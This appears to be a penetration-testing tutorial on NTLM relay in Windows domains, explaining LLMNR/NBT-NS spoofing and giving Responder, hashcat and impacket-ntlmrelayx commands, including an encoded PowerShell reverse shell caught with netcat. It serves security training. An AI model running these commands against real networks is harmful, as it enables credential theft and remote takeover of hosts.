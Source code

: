 # NTLM Relay
---

## Exploit

Let’s assume you get remote code execution on a domain joined computer. You use `whomai` and `net user $USERNAME` and find that your bind shell run on an unprivileged user. You want to get his password.

```bash
# On Kali, get private IP (LHOST) and start a responder
ip a
sudo responder -I eth0

# On the target machine
dir \\$LHOST\test

# Put the NTLMv2-SSP Hash you recieved on your responder in a file and crack it
hashcat -m 5600 target.hash /usr/share/wordlists/rockyou.txt --force
```

You’ll often get NTLMv2 hashes of machine accounts. **Do not waste your time cracking them since passwords are randomly and automatically generated**.

If we are not able to crack the NTLMv2 hash, it’s also possible to relay it to a target. The following attack relays the authentication of `$SOURCE` to `$TARGET` passing by the Kali. The relay start a reverse bind shell on `$TARGET` (passed with `-c` parameter) which is caught by the Kali thanks to a `nc` listener.

```bash
# On Kali, start a relay to the target, activating SMB2 and disabling http server
impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET -c "powershell -enc JABjAGwAaQBlAG4AdA..."

# On Kali, listen to catch reverse shell
nc -nvlp 8080

# In source domain joined computer, connect to our relay
dir \\$LHOST\test

# Reverse shell should have been caught by the Netcat listener on the Kali
whoami
hostname
ipconfig
```

## Vulnerability

If a windows client cannot resolve a hostname using DNS, it will use the Link-Local Multicast Name Resolution (LLMNR) protocol to ask neighbouring computers. LLMNR can be used to resolve both IPv4 and IPv6 addresses.

If this fails, NetBios Name Service (NBT-NS) will be used. NBT-NS is a similar protocol to LLMNR that serves the same purpose. The main difference between the two is NBT-NS works over IPv4 only.

On these occasions when LLMNR or NBT-NS are used to resolve a request, any host on the network who knows the IP of the host being asked about can reply. Even if a host replies to one of these requests with incorrect information, it will still be regarded as legitimate.

Therefore it is possible to intercept NTLMv1/v2 hashes when a client tries to authenticate against a spoofed service. If NTLMv1 is enabled they can be reused as [Pass the Hash](/ad/passthehash/) attacks. However, if only NTLMv2 hashes are intercepted they cannot be used in the same way. Instead they need to be replayed quickly as they are only valid for a short period of time.

## Prerequisites

- Network access.

## Exploit

Start by listening the network with `responder` to spoof any NTLM hash that could transit. If you catch NTHashes, just reuse it with [Pass the Hash](/ad/passthehash/) method.

```bash
sudo responder -wrfbudPF -I eth0
```

Otherwise, if you obtain Net-NTLMv1 or Net-NTLMv2 hashes, you will have to relay them. To do so, you can use `impacket-ntlmrelayx`. By default, if no command is given it will try to dump SAM hashes. To do so, one must first identify hosts where smb signing is disabled.

```bash
cme smb $RANGE --gen-relay-list targets.txt
```

Once this is done, it will be used as hosts where the NTLMv2 hashes are replayed. But first, the configuration file of `responder` must be modified to disable SMB and HTTP:

```bash
sudo vim /etc/responder/Responder.conf

[Responder Core]

; Servers to start
SQL = On
SMB = Off #Should be On when not combined with ntlmrelayx
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off #Should be On when not combined with ntlmrelayx
HTTPS = On
DNS = On
LDAP = On
```

Once the configuration file is modified, the two following commands can be ran simultaneously.

```bash
sudo responder -rdwPF -I eth0
sudo impacket-ntlmrelayx -tf targets.txt --http-port 8000 -of output.txt
```